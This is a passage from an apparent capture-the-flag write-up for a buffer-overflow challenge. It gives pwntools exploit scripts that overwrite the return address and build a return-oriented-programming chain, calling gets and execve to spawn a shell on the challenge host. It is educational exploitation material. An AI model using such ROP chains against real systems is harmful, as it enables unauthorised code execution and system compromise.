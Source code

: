 ```python  
payload += p64(binary.sym.get_flag)

p.sendline(payload)  
p.interactive()  
```

Welcome to embryo ROP.  Blow out the stack frame and get to the return
address, then replace with the location of `get_flag()`.

But, what if `execve` in `get_flag` is really a troll, e.g. `/bin/echo no flag
for you`?

No problem, we'll just have to send `/bin/sh` ourselves:

```python  
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./AAAAAAAAAAAAAAAA',checksec=False)

if args.REMOTE:  
   p = remote('pwn.utctf.live', 5000)  
else:  
   p = process(binary.path)

pop_rdi = binary.search(asm('pop rdi; ret')).__next__()  
pop_rsi_r15 = binary.search(asm('pop rsi; pop r15; ret')).__next__()

payload  = b''  
payload += 0x78 * b'A'  
payload += p64(pop_rdi)  
payload += p64(binary.bss())  
payload += p64(binary.plt.gets)  
payload += p64(pop_rdi)  
payload += p64(binary.bss())  
payload += p64(pop_rsi_r15)  
payload += p64(0)  
payload += p64(0)  
payload += p64(binary.plt.execve)  
payload += b'\n'  
payload += b'/bin/sh\0'

p.sendline(payload)  
p.interactive()  
```

Baby ROP.  Just need a few gadgets from the binary to then call `gets`
ourselves to write `/bin/sh` to the BSS, then call `execve` directly.

For this to work `rdx` needs to be `0` and fortunately it is.

But what if `rdx` is not set to `0`?
